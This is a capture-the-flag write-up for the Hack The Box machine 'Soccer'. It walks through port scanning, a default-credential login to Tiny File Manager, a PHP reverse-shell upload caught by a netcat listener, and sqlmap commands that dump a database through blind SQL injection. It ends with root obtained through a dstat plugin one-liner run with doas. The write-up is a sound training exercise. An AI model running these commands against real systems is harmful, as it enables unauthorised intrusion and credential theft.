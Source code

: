 # HTB - Soccer

#### Ip: 10.10.11.194
#### Name: Soccer
#### Rating: Easy

----------------------------------------------------------------------

![Soccer.png](../assets/soccer_assets/Soccer.png)


### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I'll also use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/HTB/Soccer]
└─$ sudo nmap -p- --min-rate 10000 10.10.11.194 -sC -sV 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-03 08:22 CST
Nmap scan report for 10.10.11.194
Host is up (0.073s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad0d84a3fdcc98a478fef94915dae16d (RSA)
|   256 dfd6a39f68269dfc7c6a0c29e961f00c (ECDSA)
|_  256 5797565def793c2fcbdb35fff17c615c (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Sat, 03 Feb 2024 14:23:12 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Sat, 03 Feb 2024 14:23:12 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
```

Using Feroxbuster we can do directory scanning and find a `/tiny` directory leading us to a Tiny File Manager service.

![soccer_ferox.png](../assets/soccer_assets/soccer_ferox.png)

Looking for default credentials we see that admin:admin@123 are default administrator credentials and we can use them to login to the site as admin:

![soccer_logged_in.png](../assets/soccer_assets/soccer_logged_in.png)

Looking around the target I find an upload feature, but am unable to write to the web root which is owned by root. I found I can create a new folder called test via the "New Item" feature, and in that folder I have write access permission to load  php-reverse-shell.php code. 

![soccer_dirs.png](../assets/soccer_assets/soccer_dirs.png)

After confirming the php shell is loaded:

![soccer_php.png](../assets/soccer_assets/soccer_php.png)

I can set up a netcat listener and click "Open" to trigger my reverse shell to catch a shell back as user www-data:

```
┌──(ryan㉿kali)-[~/HTB/Soccer]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.60] from (UNKNOWN) [10.10.11.194] 41702
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 15:58:56 up 5 min,  0 users,  load average: 0.16, 0.40, 0.23
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami 
www-data
$ hostname
soccer
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@soccer:/$ 
```

I find trying to access the user.txt flag in user player's home directory I don't have permissions and will need to escalate privileges:

```
www-data@soccer:/home/player$ cat user.txt
cat: user.txt: Permission denied
```

Loading LinPEAS to the target we see there is a vhost that wasn't found during enumeration:

![soccer_vhost.png](../assets/soccer_assets/soccer_vhost.png)

Adding this to out /etc/hosts file, we can create an account and login.

![soccer_tix.png](../assets/soccer_assets/soccer_tix.png)

We can see in the page source here some JS code that is reaching out to a websocket on port 9091:

![soccer_js.png](../assets/soccer_assets/soccer_js.png)

Full transparency: I got stuck here for HOURS, and the following SQLMap commands were shamelessly lifted from 0xdf's writeup of the box found at: https://0xdf.gitlab.io/2023/06/10/htb-soccer.html. Thanks 0xdf!

Apparently this is vulnerable to a blind SQL injection, and we can use SQLMap to interact with the web socket and extract data from the DB.

To enumerate the database We can run:
```
┌──(ryan㉿kali)-[~/HTB/Soccer]
└─$ sqlmap -u ws://soc-player.soccer.htb:9091 --dbs --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.7.2#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org
```

Which gives us the databases:
```
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```

Because soccer_db is the only non default DB, lets start there, by now enumerating tables:

```
┌──(ryan㉿kali)-[~/HTB/Soccer]
└─$ sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db --tables --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
```

Appears to be only one table:
```
Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
```

Finally, we can dump the contents of the accounts table:
```
┌──(ryan㉿kali)-[~/HTB/Soccer]
└─$ sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db -T accounts --dump --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
```

Nice, SQLMap dropped user player's password for us:

![soccer_pw.png](../assets/soccer_assets/soccer_pw.png)

We can use this to SSH into the machine:

```
┌──(ryan㉿kali)-[~/HTB/Soccer]
└─$ ssh player@10.10.11.194      
The authenticity of host '10.10.11.194 (10.10.11.194)' can't be established.
ED25519 key fingerprint is SHA256:PxRZkGxbqpmtATcgie2b7E8Sj3pw1L5jMEqe77Ob3FE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.194' (ED25519) to the list of known hosts.
player@10.10.11.194's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)
```

And grab the user.txt flag:

![soccer_user.png](../assets/soccer_assets/soccer_user.png)

### Privilege Escalation

Loading LinPEAS onto the target we see that `doas` has the SUID bit set.

![soccer_doas.png](../assets/soccer_assets/soccer_doas.png)

Also of interest we find that /usr/local/share/dstat is writable:

![soccer_lin2.png](../assets/soccer_assets/soccer_lin2.png)

If we look at the doas.conf file we see we are permitted to run dstat with doas, as you would sudo.

```
player@soccer:/tmp$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

Looking at GTFObins.com, we find the following explanation:
```
dstat allows you to run arbitrary python scripts loaded as “external plugins” if they are located in one of the directories stated in the dstat man page under “FILES”:
```

Lets try it:

```
echo 'import os; os.execv("/bin/sh", ["sh"])' > /usr/local/share/dstat/dstat_plugin.py

/usr/local/bin/doas /usr/bin/dstat --plugin
```
Nice, that worked. We can now grab the root.txt flag:

![soccer_root.png](../assets/soccer_assets/soccer_root.png)

Thanks for following along!

-Ryan

